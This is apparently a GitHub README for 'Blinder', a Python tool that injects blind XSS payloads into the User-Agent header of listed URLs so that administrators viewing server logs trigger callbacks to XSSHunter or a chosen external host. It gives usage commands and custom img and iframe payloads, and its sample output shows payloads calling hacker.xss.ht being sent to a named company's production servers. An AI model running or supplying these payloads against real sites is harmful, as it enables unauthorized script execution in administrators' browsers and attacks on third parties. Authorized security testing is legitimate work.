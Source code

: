 # Blinder
- A Tool Written In Python3 To Send Blind Payloads On The Request Headers Maybe Stored On The Logs

## Usage
```
git clone https://www.github.com/DEMON1A/Blinder.git
cd Blinder
python3 Blinder.py [ARGS]
```

## Description
- That's a New Version Of Blinder You Can Use To Automate Sending Payloads Into URLs With a Fast Way. It Basicly Uses The Payload You Provide To Send It On The Value Of The *User-Agent* Header To Inject The Payload Into The Server Logs If The Admin Can View It. In This Case You Should Receive An Alert On Your XSSHunter/Bin. That's Just It.

### Installation
```
git clone https://github.com/DEMON1A/Blinder
cd Blinder
python3 Blinder.py [ARGS]
```

### What's New?
- Threading To Improve The Script Speed.
- Using Your Own External Bin Instead Of Just Using XSSHunter
- Using Your Own Payloads That Could Be Used To Inject Other Payloads For Other Issues
- Been Able To Allow/Disallow Redirects With Requests
- You Can Use Multi Payloads With The Requests And Select The Split Char
- Cleaner Code!

### How To Use:
- For Basic Usage With a Basic Payload You Can Just The Script Using This:

```
python3 Blinder.py -f URLs.txt -u hacker -r allow
```

- The Script Can't Run Without Getting The Redirection Rule. You Can Select Between `allow` and `deny` That Chooses If The Redirections Will Be Followed In This Case Or Not.

- To Add Your Own Payload You Have To Use `XXX` On Your Payload So It Could Be Replaced With The XSSHunter/ExternalBin. For Example If You Want To Create Your Own Payload It Will Look Like This:

```
python3 Blinder.py -f URLs.txt -u hacker -r allow -p '"><img src="XXX">'
```

- Make Sure The `XXX` In This Case Are Able In a Upper Case.

- To Use Your Own ExternalBin Instead Of XSSHunter You Have To Use `-b` Option. With Your External Host Including The Protocol. For Example

```
python3 Blinder.py -f URLs.txt -b https://www.example.com/ -r allow -p '"><img src="XXX">'
```

- If You Didn't Add a Payload In Any Cases, Blinder Will Auto Set The Default XSSHunter XSS Payload To Use It.

- You Can Use Multi Payloads With The Requests By Adding a Split Char Between Them You Can Select. If You Didn't Add The Split Char The Program Will Auto Set It Into `,` In This Case. To Use Multi Payloads It Will Look Like This

```
python3 Blinder.py -f URLs.txt -u hacker -r allow -p '"><img src="XXX">','"><iframe src="XXX">' -s ,
```
- The Output Will Be Something Like That In This Case.

```
Request Has Been Sent To: https://scapi.rockstargames.com, Status-Code: 403 , Payload: "><img src="https://hacker.xss.ht/">
Request Has Been Sent To: https://scapi.rockstargames.com, Status-Code: 403 , Payload: "><iframe src="https://hacker.xss.ht/">
Request Has Been Sent To: http://scapi.rockstargames.com, Status-Code: 301 , Payload: "><img src="https://hacker.xss.ht/">
Request Has Been Sent To: http://scapi.rockstargames.com, Status-Code: 301 , Payload: "><iframe src="https://hacker.xss.ht/">
Request Has Been Sent To: https://prod.p01ewr.pod.rockstargames.com, Status-Code: 200 , Payload: "><img src="https://hacker.xss.ht/">
Request Has Been Sent To: https://prod.p01ewr.pod.rockstargames.com, Status-Code: 200 , Payload: "><iframe src="https://hacker.xss.ht/">
Request Has Been Sent To: https://prod.p02sjc.pod.rockstargames.com, Status-Code: 200 , Payload: "><img src="https://hacker.xss.ht/">
Request Has Been Sent To: https://prod.p02sjc.pod.rockstargames.com, Status-Code: 200 , Payload: "><iframe src="https://hacker.xss.ht/">
Request Has Been Sent To: https://prod.p02ewr.pod.rockstargames.com, Status-Code: 200 , Payload: "><img src="https://hacker.xss.ht/">
Request Has Been Sent To: https://prod.p02ewr.pod.rockstargames.com, Status-Code: 200 , Payload: "><iframe src="https://hacker.xss.ht/">
Request Has Been Sent To: https://warehouse.rockstargames.com, Status-Code: 302 , Payload: "><img src="https://hacker.xss.ht/">
Request Has Been Sent To: https://warehouse.rockstargames.com, Status-Code: 302 , Payload: "><iframe src="https://hacker.xss.ht/">
Request Has Been Sent To: https://prod.p01sjc.pod.rockstargames.com, Status-Code: 200 , Payload: "><img src="https://hacker.xss.ht/">
Request Has Been Sent To: https://prod.p01sjc.pod.rockstargames.com, Status-Code: 200 , Payload: "><iframe src="https://hacker.xss.ht/">
```

### Something Isn't Working Or You Want To Improve Something?
- Then Please Open an Issue With It Or You Can Fork The Project Then Create a Pull Request.
